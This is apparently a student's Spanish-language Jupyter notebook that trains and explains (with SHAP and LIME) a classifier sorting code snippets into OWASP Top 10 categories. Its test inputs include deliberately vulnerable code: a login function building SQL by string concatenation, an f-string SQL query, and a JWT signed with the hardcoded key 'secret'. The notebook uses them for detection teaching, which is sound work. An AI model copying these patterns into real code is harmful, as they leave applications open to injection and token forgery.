In [34]:
ejemplo_b = "cursor.execute(f'SELECT * FROM users WHERE id={user_id}')"
tokens_custom = tokenizer_codigo(ejemplo_b)
tokens_split  = ejemplo_b.split()

print(f"Fragmento: {ejemplo_b}")
print(f"\nTokenizador personalizado ({len(tokens_custom)} tokens):")
print(tokens_custom)
print(f"\nSolo texto.split() ({len(tokens_split)} tokens):")
print(tokens_split)
print()
print("El tokenizador personalizado separa símbolos como '=', '*', '(' de los")
print("identificadores porque usa regex [a-z_][a-z0-9_]*, capturando solo")
print("secuencias alfanuméricas válidas como tokens de código.")

Fragmento: cursor.execute(f'SELECT * FROM users WHERE id={user_id}')

Tokenizador personalizado (11 tokens):
['cursor', 'execute', 'f', 'select', '*', 'from', 'users', 'where', 'id', '=', 'user_id']

Solo texto.split() (6 tokens):
["cursor.execute(f'SELECT", '*', 'FROM', 'users', 'WHERE', "id={user_id}')"]

El tokenizador personalizado separa símbolos como '=', '*', '(' de los
identificadores porque usa regex [a-z_][a-z0-9_]*, capturando solo
secuencias alfanuméricas válidas como tokens de código.


### Tarea B.2 Experimentos con n-gramas

In [35]:
resultados_ngramas = []

for ngram in [(1,1), (1,2), (1,3)]:
    vec_ng = TfidfVectorizer(tokenizer=tokenizer_codigo, ngram_range=ngram,
                             min_df=2, max_df=0.9, sublinear_tf=True)
    X_tr_ng = vec_ng.fit_transform(X_train_t2)
    X_te_ng = vec_ng.transform(X_test_t2)

    rf_ng = RandomForestClassifier(n_estimators=200, min_samples_leaf=2,
                                   random_state=42, n_jobs=-1)
    rf_ng.fit(X_tr_ng, y_train_t2)
    acc_ng = accuracy_score(y_test_t2, rf_ng.predict(X_te_ng))

    resultados_ngramas.append({
        'ngram_range':       str(ngram),
        'Tamaño vocabulario': len(vec_ng.vocabulary_),
        'Accuracy RF':        round(acc_ng, 4),
    })
    print(f"ngram_range={ngram} | vocab={len(vec_ng.vocabulary_):>6} | acc={acc_ng:.4f}")

print()
display(pd.DataFrame(resultados_ngramas).set_index('ngram_range'))

ngram_range=(1, 1) | vocab=   564 | acc=1.0000
ngram_range=(1, 2) | vocab=  1565 | acc=1.0000
ngram_range=(1, 3) | vocab=  2551 | acc=1.0000



,Tamaño vocabulario,Accuracy RF
ngram_range,,
"(1, 1)",564,1.0
"(1, 2)",1565,1.0
"(1, 3)",2551,1.0


## Parte C Modelado

### Tarea C.1 Variaciones de n_estimators en Random Forest


In [36]:
print("n_estimators | Accuracy")
print("-" * 30)
for n_est in [10, 100, 300]:
    rf_c1 = RandomForestClassifier(n_estimators=n_est, min_samples_leaf=2,
                                   random_state=42, n_jobs=-1)
    rf_c1.fit(X_train_vec_t2, y_train_t2)
    acc_c1 = accuracy_score(y_test_t2, rf_c1.predict(X_test_vec_t2))
    print(f"  {n_est:>11}  |  {acc_c1:.4f}")

n_estimators | Accuracy
------------------------------
           10  |  1.0000
          100  |  1.0000
          300  |  1.0000


### Tarea C.2 Multinomial Naive Bayes

In [37]:
nb_t2 = MultinomialNB()
nb_t2.fit(X_train_vec_t2, y_train_t2)
y_pred_nb_t2 = nb_t2.predict(X_test_vec_t2)
acc_nb_t2 = accuracy_score(y_test_t2, y_pred_nb_t2)

print(f"Accuracy Naive Bayes:        {acc_nb_t2:.4f}")
print(f"Accuracy Reg. Logística:     {acc_lr_t2:.4f}")
print(f"Accuracy Random Forest:      {acc_rf_t2:.4f}")
print()
print(classification_report(y_test_t2, y_pred_nb_t2,
      target_names=clases_t2, zero_division=0, digits=4))

Accuracy Naive Bayes:        0.9950
Accuracy Reg. Logística:     1.0000
Accuracy Random Forest:      1.0000

                               precision    recall  f1-score   support

    A01_Broken_Access_Control     1.0000    1.0000    1.0000        20
   A02_Cryptographic_Failures     1.0000    1.0000    1.0000        20
                A03_Injection     0.9524    1.0000    0.9756        20
          A04_Insecure_Design     1.0000    1.0000    1.0000        20
A05_Security_Misconfiguration     1.0000    1.0000    1.0000        20
    A06_Vulnerable_Components     1.0000    1.0000    1.0000        20
            A07_Auth_Failures     1.0000    1.0000    1.0000        20
       A08_Integrity_Failures     1.0000    1.0000    1.0000        20
         A09_Logging_Failures     1.0000    1.0000    1.0000        20
                     A10_SSRF     1.0000    0.9500    0.9744        20

                     accuracy                         0.9950       200
                    macro avg     0.9

## Parte D Interpretación de la Matriz de Confusión

### Tarea D Par de clases más confundido


Par más confundido:
  Real:     A01_Broken_Access_Control
  Predicho: A01_Broken_Access_Control
  Casos:    0

Hipótesis: estas categorías comparten vocabulario similar
(por ejemplo, A01 y A07 comparten tokens de autenticación/acceso).





In [38]:
cm_rf_t2 = confusion_matrix(y_test_t2, y_pred_rf_t2, labels=clases_t2)
cm_df = pd.DataFrame(cm_rf_t2, index=clases_t2, columns=clases_t2)

cm_off = cm_df.to_numpy(copy=True)

np.fill_diagonal(cm_off, 0)
max_val = cm_off.max()
pos = np.unravel_index(cm_off.argmax(), cm_off.shape)
clase_real_conf  = clases_t2[pos[0]]
clase_pred_conf  = clases_t2[pos[1]]

print(f"Par más confundido:")
print(f"  Real:     {clase_real_conf}")
print(f"  Predicho: {clase_pred_conf}")
print(f"  Casos:    {max_val}")
print()
print("Hipótesis: estas categorías comparten vocabulario similar")
print("(por ejemplo, A01 y A07 comparten tokens de autenticación/acceso).")
print()

fig, ax = plt.subplots(figsize=(11, 3))
fila = cm_df.loc[clase_real_conf]
colores = ['#e74c3c' if c == clase_pred_conf else '#3498db' for c in fila.index]
ax.bar(fila.index, fila.values, color=colores)
ax.set_title(f'Distribución de predicciones para la clase real: {clase_real_conf}')
ax.set_xlabel('Clase predicha')
ax.set_ylabel('Fragmentos')
plt.xticks(rotation=45, ha='right')
plt.tight_layout()
plt.show()

## Parte E Explicabilidad SHAP y LIME

### Tarea E.1 Tokens más influyentes (SHAP global)


In [39]:
print("Top 5 tokens más influyentes según SHAP global:\n")
for i, idx in enumerate(top_idx[:5], 1):
    token = feature_names_t2[idx]
    # Asociar a categoría esperada
    asociacion = {
        'md5': 'A02 (Cryptographic Failures)',
        'sha1': 'A02 (Cryptographic Failures)',
        'pickle': 'A08 (Integrity Failures)',
        'requests': 'A10 (SSRF)',
        'eval': 'A03 (Injection)',
        'system': 'A03 (Injection)',
        'debug': 'A05 (Security Misconfiguration)',
        'url': 'A10 (SSRF)',
        'password': 'A07 (Auth Failures)',
        'secret': 'A02 (Cryptographic Failures)',
    }
    cat = asociacion.get(token.split()[0], 'General / múltiples categorías')
    print(f"  {i}. {token:30s} → {cat}")

Top 5 tokens más influyentes según SHAP global:

  1. sin                            → General / múltiples categorías
  2. ssrf                           → General / múltiples categorías
  3. def                            → General / múltiples categorías
  4. =                              → General / múltiples categorías
  5. se                             → General / múltiples categorías


### Tarea E.2 Análisis de tres predicciones con LIME

#### Fragmento 1 Vulnerabilidad obvia (SQL Injection)

Fragmento 1 SQL Injection clásica


### Predicción: `A03_Injection`

**Confianza:** `62.86%`

_Inyección: SQL Injection, XSS, Command Injection, LDAP Injection._

**Top 3 categorías más probables:**

,probabilidad
A03_Injection,62.86 %
A01_Broken_Access_Control,17.62 %
A04_Insecure_Design,9.81 %




### Explicación LIME

,token,peso_LIME,efecto
0,SELECT,0.149865,empuja hacia A03_Injection
1,def,-0.134510,aleja de A03_Injection
2,FROM,0.056127,empuja hacia A03_Injection
3,return,-0.055553,aleja de A03_Injection
4,WHERE,0.038227,empuja hacia A03_Injection
5,db,-0.022702,aleja de A03_Injection
6,login,-0.014096,aleja de A03_Injection
7,password,-0.009102,aleja de A03_Injection
8,execute,0.004742,empuja hacia A03_Injection
9,users,0.004303,empuja hacia A03_Injection


### Explicación SHAP



In [40]:
fragmento_1 = """
def login(username, password):
    query = "SELECT * FROM users WHERE u='" + username + "' AND p='" + password + "'"
    return db.execute(query)
"""
print("=" * 60)
print("Fragmento 1 SQL Injection clásica")
print("=" * 60)
resultado_e1 = analizar_codigo(fragmento_1)

#### Fragmento 2 Vulnerabilidad sutil (JWT con clave hardcodeada)

Fragmento 2 JWT con clave hardcodeada


### Predicción: `A02_Cryptographic_Failures`

**Confianza:** `59.20%`

_Fallas criptográficas: algoritmos obsoletos (MD5, SHA-1, RC4), claves hardcodeadas._

**Top 3 categorías más probables:**

,probabilidad
A02_Cryptographic_Failures,59.2 %
A03_Injection,10.15 %
A07_Auth_Failures,7.14 %




### Explicación LIME

,token,peso_LIME,efecto
0,key,0.263116,empuja hacia A02_Cryptographic_Failures
1,user,-0.067820,aleja de A02_Cryptographic_Failures
2,encode,0.024355,empuja hacia A02_Cryptographic_Failures
3,algorithm,-0.007791,aleja de A02_Cryptographic_Failures
4,jwt,-0.003726,aleja de A02_Cryptographic_Failures
5,token,0.003502,empuja hacia A02_Cryptographic_Failures
6,username,-0.002758,aleja de A02_Cryptographic_Failures
7,secret,-0.000176,aleja de A02_Cryptographic_Failures
8,HS256,-0.000173,aleja de A02_Cryptographic_Failures


### Explicación SHAP



In [41]:
fragmento_2 = """
token = jwt.encode({'user': username}, key='secret', algorithm='HS256')
"""
print("=" * 60)
print("Fragmento 2 JWT con clave hardcodeada")
print("=" * 60)
resultado_e2 = analizar_codigo(fragmento_2)

#### Fragmento 3 Código aparentemente seguro (bcrypt)

Fragmento 3 Hash con bcrypt (buenas prácticas)


### Predicción: `A04_Insecure_Design`

**Confianza:** `28.69%`

_Diseño inseguro: flujos de negocio sin validación, ausencia de controles fundamentales._

**Top 3 categorías más probables:**

,probabilidad
A04_Insecure_Design,28.69 %
A02_Cryptographic_Failures,20.18 %
A07_Auth_Failures,19.37 %




### Explicación LIME

,token,peso_LIME,efecto
0,def,0.288464,empuja hacia A04_Insecure_Design
1,return,-0.072125,aleja de A04_Insecure_Design
2,password,-0.008016,aleja de A04_Insecure_Design
3,encode,-0.005064,aleja de A04_Insecure_Design
4,import,-0.002727,aleja de A04_Insecure_Design
5,gensalt,0.000881,empuja hacia A04_Insecure_Design
6,bcrypt,0.000665,empuja hacia A04_Insecure_Design
7,hashpw,0.000575,empuja hacia A04_Insecure_Design
8,hash_password,0.000265,empuja hacia A04_Insecure_Design


### Explicación SHAP



In [42]:
fragmento_3 = """
import bcrypt
def hash_password(password):
    return bcrypt.hashpw(password.encode(), bcrypt.gensalt())
"""
print("=" * 60)
print("Fragmento 3 Hash con bcrypt (buenas prácticas)")
print("=" * 60)
resultado_e3 = analizar_codigo(fragmento_3)

### Tabla resumen Parte E

| Fragmento | Categoría predicha | Confianza | ¿Es correcta? | Token más influyente (LIME) |
|---|---|---|---|---|
| 1 SQL Injection | A03_Injection | 62.86% | Sí  | SELECT |
| 2 JWT key='secret' | A02_Cryptographic_Failures | 59.20% | Sí  | key |
| 3 bcrypt (seguro) | A04_Insecure_Design | 28.69% | No  | def |

### Reflexión (mínimo 100 palabras)

La reflexión que se puede extraer es que el caso 1 es donde más se confía en la predicción, tal y como lo hablamos en el taller anterior no necesariamente porque tiene la confianza más alta entre los tres casos sino porque logro predecir correctamente la clase a la que pertenece el fragmento analizado. Además en el caso 1 se identifico tokens relacionados con la vulnerabilidad como en este caso SELECT que forma parte de la query SQL.
En los otro dos casos tenemos una variabilidad entre la confianza y si predijeron correctamente ya que el caso 2 lo hizo pero la confianza practicamente esta por decir que no es la clase correcta, en palabras comunes esta indeciso le modelo. Y el caso 3 no logro predecir correctamente y la confianza es muy baja pero lo importante de aqui es que el token que más influyó fue def, una palabra clave estructural de Python sin ninguna relación con vulnerabilidades. El modelo no supo qué hacer con código seguro y eligió una clase al azar apoyándose en la sintaxis, no en el contenido de seguridad.

## Pregunta Integradora Final

> Imagina que tu universidad quiere integrar este clasificador en su pipeline de revisión de tareas de programación para detectar código inseguro entregado por los estudiantes. **Lista 3 razones por las que NO desplegarías el modelo tal como está**, y para cada razón propón una mejora concreta.

### Razón 1: Sesgo del dataset sintético

El modelo fue entrenado con plantillas generadas artificialmente. Un estudiante que use nombres de variables distintos a los del dataset (por ejemplo, `x` o `q` en lugar de `user_input` o `query`) puede entregar código vulnerable que el modelo no detecte, porque el patrón léxico no coincide con el entrenamiento.

**Mejora:** Reemplazar el dataset sintético por un dataset real construido con fragmentos de repositorios académicos con vulnerabilidades documentadas, o al menos ampliar las plantillas con variantes de nombres de variables.

### Razón 2: Falsos positivos con consecuencias académicas

Un falso positivo significa acusar a un estudiante de entregar código inseguro cuando en realidad es correcto. Esto afecta directamente su calificación. La tasa de falsos positivos del modelo, especialmente para categorías de vocabulario genérico como A04, no es suficientemente baja para usarlo sin supervisión humana.

**Mejora:** No usar el modelo como decision final, sino como asistente que señala fragmentos sospechosos para que el docente los revise manualmente.

### Razón 3: El modelo no reconoce código seguro como clase válida

El clasificador multiclase siempre asigna una categoría OWASP, incluso a código completamente seguro. Cualquier entrega recibirá una etiqueta de vulnerabilidad, lo cual es incorrecto por definición.

**Mejora:** Combinar el clasificador binario del Taller 1 con el multiclase del Taller 2: primero filtrar si el código es vulnerable y, solo si lo es, clasificar la categoría OWASP.
